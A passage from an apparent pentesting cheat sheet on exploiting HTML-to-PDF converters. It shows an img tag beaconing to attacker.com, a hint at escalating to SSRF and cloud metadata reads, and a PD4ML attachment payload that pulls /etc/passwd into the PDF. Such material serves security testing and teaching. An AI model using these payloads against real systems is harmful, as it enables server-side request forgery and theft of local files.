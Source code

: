 ```markup
}
</script>
<img src="https://attacker.com/startingScan">
```
### [SSRF](../ssrf-server-side-request-forgery/)

**SSRF** (Server Side Request Forgery) **vulnerability** can be transformed very easily in a **SSRF** (as you can make the script load external resources). So just try to exploit it (read some metadata?).

### Attachments: PD4ML

There are some **HTML 2 PDF engines** that allow to **specify attachments for the PDF**, like **PD4ML**. You can abuse this feature to **attach any local file** to the PDF.\
To open the attachment I opened the file with **Firefox and double clicked the Paperclip symbol** to **store the attachment** as a new file.\
Capturing the **PDF response** with burp should also **show the attachment in cleat text** inside the PDF.

{% code overflow="wrap" %}
```html
<!-- From https://0xdf.gitlab.io/2021/04/24/htb-bucket.html -->
<html><pd4ml:attachment src="/etc/passwd" description="attachment sample" icon="Paperclip"/></html>
```
{% endcode %}

## References

* [https://lbherrera.github.io/lab/h1415-ctf-writeup.html](https://lbherrera.github.io/lab/h1415-ctf-writeup.html)
* [https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/](https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/)
* [https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)
* [https://infosecwriteups.com/breaking-down-ssrf-on-pdf-generation-a-pentesting-guide-66f8a309bf3c](https://infosecwriteups.com/breaking-down-ssrf-on-pdf-generation-a-pentesting-guide-66f8a309bf3c)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
